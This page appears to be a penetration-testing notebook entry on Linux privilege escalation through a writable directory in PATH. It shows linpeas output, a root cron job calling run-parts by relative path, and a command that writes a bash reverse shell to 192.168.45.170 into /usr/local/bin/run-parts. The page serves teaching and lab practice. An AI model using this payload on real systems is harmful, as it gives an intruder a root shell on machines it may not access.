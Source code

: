 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Path Abuse

A common privilege escalation vector on Linux involves **abusing writable directories listed in the system’s `PATH` environment variable**, particularly when those directories are used by automated tasks executed with elevated privileges. When a privileged process like a cron job executes a command without specifying its full path, the shell resolves that command by searching through the directories listed in `PATH`. If one of these directories is writable by a low-privileged user, and a file with the same name as the expected command is placed there, the system may inadvertently execute the user-controlled binary or script as `root`. This becomes especially dangerous when the task is run by `root` on a predictable schedule, such as through `/etc/crontab`.

For example, Linpeas often highlights both writable system paths:

{% code overflow="wrap" %}
```bash
# Host enumeration with Linpeas
$ ./linpeas.sh
╔══════════╣ PATH
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-path-abuses
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
╔══════════╣ Systemd PATH
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#systemd-path---relative-paths
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 200)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files
/usr/local/bin
```
{% endcode %}

Inspecting the `/etc/crontab` reveals a `root`-owned job scheduled to run every five minutes. The relevant line instructed the system to execute `run-parts` to iterate over scripts in `/etc/cron.hourly`, without using an absolute path for the `run-parts` binary. Since `/usr/local/bin` appeared earlier in the `PATH`, any binary or script placed there with the name `run-parts` would be executed in place of the real one.

```bash
$ cat /etc/crontab
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
​
# m h dom mon dow user  command
*/5 *   * * *   root    cd / && run-parts --report /etc/cron.hourly # Every 5 mins
```

To exploit this misconfiguration, a reverse shell payload was written into `/usr/local/bin/run-parts`, ensuring it was executable.

{% code overflow="wrap" %}
```bash
$ echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.45.170/21 0>&1'" > /usr/local/bin/run-parts
```
{% endcode %}

Within the next five-minute interval, the cron job will trigger and execute the malicious script under `root` privileges, resulting in a `root` shell on the attacker’s listener.
